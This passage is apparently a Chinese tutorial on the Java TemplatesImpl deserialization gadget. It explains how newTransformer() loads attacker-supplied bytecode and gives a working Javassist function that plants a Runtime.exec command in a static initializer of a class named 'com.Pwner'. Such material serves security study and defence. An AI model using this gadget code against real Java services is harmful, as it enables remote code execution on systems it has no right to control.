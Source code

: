 调用 ```getTransletInstance()``` 方法在 ```newTransformer()``` 方法中也有调用，并且不需要前置条件即可调用. 所以实际调用 ```newTransformer()``` 或 ```getTransletInstance()``` 方法都可以.


### ***_bytecodes field***


首先构造 ```Foo``` 类，该类实现了 ```Serializable``` 序列化接口.然后使用 ```ClassPool``` 修改 ```Foo``` 类，因为为 ```_transletIndex``` 设置值时，父类名必须为 ```"com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"```，所以调用 ```clazz.setSuperclass(xxx)``` 设置 ```Foo``` 类的父类.另外调用类的无参构造方法时触发我们想要执行的代码，所以可以给 ```Foo``` 类的默认构造方法添加我们想执行的代码，或者构造静态代码块添加我们想执行的代码.

1、通过 ```ClassPool``` 构造字节码.

```java
public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
    throws Exception {
	final T templates = tplClass.newInstance();

	// use template gadget class
	ClassPool pool = ClassPool.getDefault();

	// 新增搜索路径到 pathList 中
	pool.insertClassPath(new ClassClassPath(Foo.class));
	pool.insertClassPath(new ClassClassPath(abstTranslet));

	// 先后从缓存和 pathList 中寻找 Foo 类，返回 CtClass 对象
	final CtClass clazz = pool.get(Foo.class.getName());

	// 构造静态初始化语句，后面用到
	String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
	        command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
	        "\");";

	// 在类中设置静态初始化语句
	clazz.makeClassInitializer().insertBefore(cmd);

	// 设置类名
	clazz.setName("com.Pwner");

	// 先后从缓存和 pathList 中寻找 abstTranslet 类，返回 CtClass 对象
	CtClass superC = pool.get(abstTranslet.getName());

	// 设置父类为 abstTranslet
	clazz.setSuperclass(superC);

	// 将类转换为二进制
	final byte[] classBytes = clazz.toBytecode();

	// 使用 Reflections 反射框架为 _bytecodes 字段赋值
	Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
	        classBytes, ClassFiles.classAsBytes(Foo.class)
	});

	// 使用 Reflections 反射框架为 _name 字段赋值
	Reflections.setFieldValue(templates, "_name", "Pwner");
	
	return templates;
	}
	
	public static class Foo implements Serializable {
	
	private static final long serialVersionUID = 8207363842866235160L;
}
```